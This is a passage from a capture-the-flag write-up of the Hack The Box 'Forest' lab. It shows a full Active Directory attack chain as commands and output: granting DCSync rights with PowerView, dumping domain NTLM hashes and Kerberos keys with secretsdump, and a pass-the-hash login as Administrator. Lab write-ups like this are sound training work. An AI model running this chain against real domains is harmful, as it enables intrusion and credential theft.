*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net localgroup "Remote Management Users" akku /add
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $SecPassword = ConvertTo-SecureString 'Password' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $Cred = New-Object System.Management.Automation.PSCredential('HTB\akku', $SecPassword)
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> upload powerview.ps1
                                        
Info: Uploading /home/akku/htb/machines/forest/powerview.ps1 to C:\Users\svc-alfresco\Documents\powerview.ps1
                                        
Data: 1224112 bytes of 1224112 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Import-Module .\powerview.ps1
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Add-DomainObjectAcl -Credential $Cred -PrincipalIdentity akku -Rights DCSync
```

After the successfull execution of the last command, I used `impacket-secretsdump` on my local machine to try to retrieve the administrator hash.

```
impacket-secretsdump htb.local/akku:Password@10.129.95.210
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_2c8eef0a09b545acb:1124:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_ca8c2ed5bdab4dc9b:1125:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_75a538d3025e4db9a:1126:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_681f53d4942840e18:1127:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1b41c9286325456bb:1128:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_9b69f1b9d2cc45549:1129:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_7c96b981967141ebb:1130:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_c75ee099d0a64c91b:1131:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1ffab36a2f5f479cb:1132:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\HealthMailboxc3d7722:1134:aad3b435b51404eeaad3b435b51404ee:4761b9904a3d88c9c9341ed081b4ec6f:::
htb.local\HealthMailboxfc9daad:1135:aad3b435b51404eeaad3b435b51404ee:5e89fd2c745d7de396a0152f0e130f44:::
htb.local\HealthMailboxc0a90c9:1136:aad3b435b51404eeaad3b435b51404ee:3b4ca7bcda9485fa39616888b9d43f05:::
htb.local\HealthMailbox670628e:1137:aad3b435b51404eeaad3b435b51404ee:e364467872c4b4d1aad555a9e62bc88a:::
htb.local\HealthMailbox968e74d:1138:aad3b435b51404eeaad3b435b51404ee:ca4f125b226a0adb0a4b1b39b7cd63a9:::
htb.local\HealthMailbox6ded678:1139:aad3b435b51404eeaad3b435b51404ee:c5b934f77c3424195ed0adfaae47f555:::
htb.local\HealthMailbox83d6781:1140:aad3b435b51404eeaad3b435b51404ee:9e8b2242038d28f141cc47ef932ccdf5:::
htb.local\HealthMailboxfd87238:1141:aad3b435b51404eeaad3b435b51404ee:f2fa616eae0d0546fc43b768f7c9eeff:::
htb.local\HealthMailboxb01ac64:1142:aad3b435b51404eeaad3b435b51404ee:0d17cfde47abc8cc3c58dc2154657203:::
htb.local\HealthMailbox7108a4e:1143:aad3b435b51404eeaad3b435b51404ee:d7baeec71c5108ff181eb9ba9b60c355:::
htb.local\HealthMailbox0659cc1:1144:aad3b435b51404eeaad3b435b51404ee:900a4884e1ed00dd6e36872859c03536:::
htb.local\sebastien:1145:aad3b435b51404eeaad3b435b51404ee:96246d980e3a8ceacbf9069173fa06fc:::
htb.local\lucinda:1146:aad3b435b51404eeaad3b435b51404ee:4c2af4b2cd8a15b1ebd0ef6c58b879c3:::
htb.local\svc-alfresco:1147:aad3b435b51404eeaad3b435b51404ee:9248997e4ef68ca2bb47ae4e6f128668:::
htb.local\andy:1150:aad3b435b51404eeaad3b435b51404ee:29dfccaf39618ff101de5165b19d524b:::
htb.local\mark:1151:aad3b435b51404eeaad3b435b51404ee:9e63ebcb217bf3c6b27056fdcb6150f7:::
htb.local\santi:1152:aad3b435b51404eeaad3b435b51404ee:483d4c70248510d8e0acb6066cd89072:::
akku:10101:aad3b435b51404eeaad3b435b51404ee:a4f49c406510bdcab6824ee7c30fd852:::
FOREST$:1000:aad3b435b51404eeaad3b435b51404ee:64b4d82be5aba4ebf98def4953126c23:::
EXCH01$:1103:aad3b435b51404eeaad3b435b51404ee:050105bb043f5b8ffc3a9fa99b5ef7c1:::
[*] Kerberos keys grabbed
htb.local\Administrator:aes256-cts-hmac-sha1-96:910e4c922b7516d4a27f05b5ae6a147578564284fff8461a02298ac9263bc913
htb.local\Administrator:aes128-cts-hmac-sha1-96:b5880b186249a067a5f6b814a23ed375
htb.local\Administrator:des-cbc-md5:c1e049c71f57343b
krbtgt:aes256-cts-hmac-sha1-96:9bf3b92c73e03eb58f698484c38039ab818ed76b4b3a0e1863d27a631f89528b
krbtgt:aes128-cts-hmac-sha1-96:13a5c6b1d30320624570f65b5f755f58
krbtgt:des-cbc-md5:9dd5647a31518ca8
htb.local\HealthMailboxc3d7722:aes256-cts-hmac-sha1-96:258c91eed3f684ee002bcad834950f475b5a3f61b7aa8651c9d79911e16cdbd4
htb.local\HealthMailboxc3d7722:aes128-cts-hmac-sha1-96:47138a74b2f01f1886617cc53185864e
htb.local\HealthMailboxc3d7722:des-cbc-md5:5dea94ef1c15c43e
htb.local\HealthMailboxfc9daad:aes256-cts-hmac-sha1-96:6e4efe11b111e368423cba4aaa053a34a14cbf6a716cb89aab9a966d698618bf
htb.local\HealthMailboxfc9daad:aes128-cts-hmac-sha1-96:9943475a1fc13e33e9b6cb2eb7158bdd
htb.local\HealthMailboxfc9daad:des-cbc-md5:7c8f0b6802e0236e
htb.local\HealthMailboxc0a90c9:aes256-cts-hmac-sha1-96:7ff6b5acb576598fc724a561209c0bf541299bac6044ee214c32345e0435225e
htb.local\HealthMailboxc0a90c9:aes128-cts-hmac-sha1-96:ba4a1a62fc574d76949a8941075c43ed
htb.local\HealthMailboxc0a90c9:des-cbc-md5:0bc8463273fed983
htb.local\HealthMailbox670628e:aes256-cts-hmac-sha1-96:a4c5f690603ff75faae7774a7cc99c0518fb5ad4425eebea19501517db4d7a91
htb.local\HealthMailbox670628e:aes128-cts-hmac-sha1-96:b723447e34a427833c1a321668c9f53f
htb.local\HealthMailbox670628e:des-cbc-md5:9bba8abad9b0d01a
htb.local\HealthMailbox968e74d:aes256-cts-hmac-sha1-96:1ea10e3661b3b4390e57de350043a2fe6a55dbe0902b31d2c194d2ceff76c23c
htb.local\HealthMailbox968e74d:aes128-cts-hmac-sha1-96:ffe29cd2a68333d29b929e32bf18a8c8
htb.local\HealthMailbox968e74d:des-cbc-md5:68d5ae202af71c5d
htb.local\HealthMailbox6ded678:aes256-cts-hmac-sha1-96:d1a475c7c77aa589e156bc3d2d92264a255f904d32ebbd79e0aa68608796ab81
htb.local\HealthMailbox6ded678:aes128-cts-hmac-sha1-96:bbe21bfc470a82c056b23c4807b54cb6
htb.local\HealthMailbox6ded678:des-cbc-md5:cbe9ce9d522c54d5
htb.local\HealthMailbox83d6781:aes256-cts-hmac-sha1-96:d8bcd237595b104a41938cb0cdc77fc729477a69e4318b1bd87d99c38c31b88a
htb.local\HealthMailbox83d6781:aes128-cts-hmac-sha1-96:76dd3c944b08963e84ac29c95fb182b2
htb.local\HealthMailbox83d6781:des-cbc-md5:8f43d073d0e9ec29
htb.local\HealthMailboxfd87238:aes256-cts-hmac-sha1-96:9d05d4ed052c5ac8a4de5b34dc63e1659088eaf8c6b1650214a7445eb22b48e7
htb.local\HealthMailboxfd87238:aes128-cts-hmac-sha1-96:e507932166ad40c035f01193c8279538
htb.local\HealthMailboxfd87238:des-cbc-md5:0bc8abe526753702
htb.local\HealthMailboxb01ac64:aes256-cts-hmac-sha1-96:af4bbcd26c2cdd1c6d0c9357361610b79cdcb1f334573ad63b1e3457ddb7d352
htb.local\HealthMailboxb01ac64:aes128-cts-hmac-sha1-96:8f9484722653f5f6f88b0703ec09074d
htb.local\HealthMailboxb01ac64:des-cbc-md5:97a13b7c7f40f701
htb.local\HealthMailbox7108a4e:aes256-cts-hmac-sha1-96:64aeffda174c5dba9a41d465460e2d90aeb9dd2fa511e96b747e9cf9742c75bd
htb.local\HealthMailbox7108a4e:aes128-cts-hmac-sha1-96:98a0734ba6ef3e6581907151b96e9f36
htb.local\HealthMailbox7108a4e:des-cbc-md5:a7ce0446ce31aefb
htb.local\HealthMailbox0659cc1:aes256-cts-hmac-sha1-96:a5a6e4e0ddbc02485d6c83a4fe4de4738409d6a8f9a5d763d69dcef633cbd40c
htb.local\HealthMailbox0659cc1:aes128-cts-hmac-sha1-96:8e6977e972dfc154f0ea50e2fd52bfa3
htb.local\HealthMailbox0659cc1:des-cbc-md5:e35b497a13628054
htb.local\sebastien:aes256-cts-hmac-sha1-96:fa87efc1dcc0204efb0870cf5af01ddbb00aefed27a1bf80464e77566b543161
htb.local\sebastien:aes128-cts-hmac-sha1-96:18574c6ae9e20c558821179a107c943a
htb.local\sebastien:des-cbc-md5:702a3445e0d65b58
htb.local\lucinda:aes256-cts-hmac-sha1-96:acd2f13c2bf8c8fca7bf036e59c1f1fefb6d087dbb97ff0428ab0972011067d5
htb.local\lucinda:aes128-cts-hmac-sha1-96:fc50c737058b2dcc4311b245ed0b2fad
htb.local\lucinda:des-cbc-md5:a13bb56bd043a2ce
htb.local\svc-alfresco:aes256-cts-hmac-sha1-96:46c50e6cc9376c2c1738d342ed813a7ffc4f42817e2e37d7b5bd426726782f32
htb.local\svc-alfresco:aes128-cts-hmac-sha1-96:e40b14320b9af95742f9799f45f2f2ea
htb.local\svc-alfresco:des-cbc-md5:014ac86d0b98294a
htb.local\andy:aes256-cts-hmac-sha1-96:ca2c2bb033cb703182af74e45a1c7780858bcbff1406a6be2de63b01aa3de94f
htb.local\andy:aes128-cts-hmac-sha1-96:606007308c9987fb10347729ebe18ff6
htb.local\andy:des-cbc-md5:a2ab5eef017fb9da
htb.local\mark:aes256-cts-hmac-sha1-96:9d306f169888c71fa26f692a756b4113bf2f0b6c666a99095aa86f7c607345f6
htb.local\mark:aes128-cts-hmac-sha1-96:a2883fccedb4cf688c4d6f608ddf0b81
htb.local\mark:des-cbc-md5:b5dff1f40b8f3be9
htb.local\santi:aes256-cts-hmac-sha1-96:8a0b0b2a61e9189cd97dd1d9042e80abe274814b5ff2f15878afe46234fb1427
htb.local\santi:aes128-cts-hmac-sha1-96:cbf9c843a3d9b718952898bdcce60c25
htb.local\santi:des-cbc-md5:4075ad528ab9e5fd
akku:aes256-cts-hmac-sha1-96:1d09c794a759682eab96e5aa0724c4d0c605f0358a9bf9c9b0d275c4f9f70e26
akku:aes128-cts-hmac-sha1-96:8b14f71873c80bf5490c7d60221e1373
akku:des-cbc-md5:c798166de34c584f
FOREST$:aes256-cts-hmac-sha1-96:d8b233fcf4fb867530bcc056b7c77218f4f3ceae83cfc8075376fafb37207fd6
FOREST$:aes128-cts-hmac-sha1-96:29d8526b39bb47ed1d20987788e1af02
FOREST$:des-cbc-md5:9b299413eada7f08
EXCH01$:aes256-cts-hmac-sha1-96:1a87f882a1ab851ce15a5e1f48005de99995f2da482837d49f16806099dd85b6
EXCH01$:aes128-cts-hmac-sha1-96:9ceffb340a70b055304c3cd0583edf4e
EXCH01$:des-cbc-md5:8c45f44c16975129
[*] Cleaning up...
```

I was able to retrieve the administrator NTLM hash along with the NTLM hashes for a lots of user accounts on the AD environment. The next step is to impersonate the administrator user & retrieve the root flag.

```
evil-winrm -i 10.129.95.210 -u Administrator -H 32693b11e6aa90eb43d32c72a07ceea6
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..\Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        8/17/2026   7:12 AM             34 root.txt


```

## **NOTE**: The password spray attempt did not give any successfull hits whatsoever.